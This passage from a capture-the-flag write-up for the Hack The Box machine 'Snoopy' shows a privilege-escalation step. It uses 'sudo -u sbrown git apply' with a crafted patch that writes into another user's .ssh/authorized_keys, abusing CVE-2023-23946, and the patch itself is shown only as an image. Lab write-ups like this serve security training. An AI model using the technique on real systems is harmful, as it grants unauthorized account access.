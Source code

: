 Put that patch on target machine

```bash
cbrown@snoopy:~$ cd /tmp
cbrown@snoopy:/tmp$ vi p
```

![](/assets/obsidian/cc827a097b812d4cba91dd6fa83d8f8f.png)

Failed...

```bash
┌──(bravosec㉿fsociety)-[~/htb/Snoopy]
└─$ ssh sbrown@snoopy.htb
sbrown@snoopy.htb's password:
```

There's a new home dir created in `/tmp`, assume directory was locked to current dir

```bash
cbrown@snoopy:/tmp$ sudo -u sbrown git apply -v p
Checking patch home/sbrown/.ssh/authorized_keys...
Applied patch home/sbrown/.ssh/authorized_keys cleanly.
cbrown@snoopy:/tmp$ ls -altr
total 60
drwxr-xr-x 19 root   root   4096 Apr 25 18:38 ..
...
-rw-rw-r--  1 cbrown cbrown  756 Sep 22 18:06 p
drwxr-xr-x  3 sbrown sbrown 4096 Sep 22 18:06 home
drwxrwxrwt 14 root   root   4096 Sep 22 18:07 .
```


### Abuse "git apply" (CVE-2023-23946)

Further research on `exploiting git apply`

> https://github.blog/2023-02-14-git-security-vulnerabilities-announced-3/

![](/assets/obsidian/c2589085b217866648bd12f079d8c910.png)
